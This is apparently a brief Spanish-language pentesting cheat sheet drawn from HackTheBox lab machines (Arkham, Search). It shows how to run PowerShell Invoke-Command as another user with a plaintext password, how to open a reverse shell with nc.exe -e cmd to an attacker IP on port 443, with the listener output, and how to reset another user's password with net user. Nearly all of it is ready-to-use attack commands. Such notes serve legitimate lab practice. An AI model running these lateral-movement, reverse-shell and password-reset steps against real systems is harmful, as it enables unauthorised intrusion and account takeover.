 # Windows Script Block for exec Commands like other User with his password

Paso 1
```
$secPass = ConvertTo-SecureString 'Zx^#!QZX+T!123' -AsPlainText -Force
```
Paso 2
```
$cred = New-Object System.Management.Automation.PSCredential('ARKHAM\batman', $secPass)
```

Paso 3 ejecutando comandos como el usuario Batman desde el user alfred
```
whoami
arkham\alfred

Invoke-Command -ComputerName ARKHAM -Credential $cred -ScriptBlock { whoami }
arkham\batman
PS C:\> 
```
Si tenemos un nc.exe subido a la maquina podemos enviarnos una rev shell para hacer user pivoting usando ScriptBlock para ejecutar
comandos como el usuario batman
```
Invoke-Command -ComputerName ARKHAM -Credential $cred -ScriptBlock { C:\Windows\System32\spool\drivers\color\nc.exe -e cmd 10.10.16.7 443 }
```
Ganando acceso
```
# rlwrap nc -vlnp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.130] 49698
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

whoami
whoami
arkham\batman
```

Cambiando la password a otro usuario mediante el uso de ScriptBlock - Search.htb Box
```
Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { net user tristan.davies Password123$ }
```
